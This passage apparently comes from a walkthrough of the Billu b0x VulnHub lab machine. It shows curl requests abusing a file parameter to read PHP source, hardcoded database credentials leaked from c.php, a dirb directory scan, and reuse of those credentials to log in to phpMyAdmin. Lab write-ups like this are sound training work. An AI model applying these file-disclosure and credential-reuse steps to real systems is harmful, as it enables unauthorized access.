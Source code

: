 However no execution is possible.

Next we shall examine `/in.php`
```
root@marksmith:~# curl -d "file=in.php" http://192.168.109.146/test
<?php 
    phpinfo();

?>
```
This will enable us to determine the webroot directory. If we navigate to /in.php we get phpinfo(), hence the web directory `/var/www/`

![9-4.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-4.png)

More on this later.

Next we shall examine `/c.php` :
```
root@marksmith:~# curl -d "file=c.php" http://192.168.109.146/test
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }

?>
```
This gives some credentials for a database `"127.0.0.1","billu","b0x_billu","ica_lab"`

Earlier we noted that we running PHP. Could there be possibly a PHP admin page.
We run a more thorough dirb_scan.

_dirb http://192.168.109.129 /usr/share/dirb/wordlists/big.txt_

This returns the existence of a __phpmydmin__ site 
`http://192.168.109.129/phpmy/`
We'll use the credentials to log in: `user:billu password:b0x_billu`
